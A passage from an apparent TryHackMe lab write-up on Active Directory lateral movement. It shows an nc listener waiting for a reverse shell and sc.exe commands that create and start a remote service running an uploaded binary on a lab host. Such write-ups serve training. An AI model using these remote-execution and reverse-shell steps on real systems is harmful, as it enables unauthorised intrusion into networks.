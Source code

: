 Note: Remember that since you are using `runas` with the `/netonly` option, it will not bother to check if the provided credentials are valid (more info on this on the [Enumerating AD room](https://tryhackme.com/room/adenumeration)), so be sure to type the password correctly. If you don't, you will see some ACCESS DENIED errors later in the room.

We can receive the reverse shell connection using nc in our AttackBox as usual:

**Kali**

```
nc -lvp 4443
```

And finally, proceed to create a new service remotely by using sc, associating it with our uploaded binary:

**Victim**

```
sc.exe \\thmiis.za.tryhackme.com create THMservice-3249 binPath= "%windir%\myservice.exe" start= auto
sc.exe \\thmiis.za.tryhackme.com start THMservice-3249
```

<figure><img src="../../.gitbook/assets/image (35) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (36) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (20) (6).png" alt=""><figcaption></figcaption></figure>
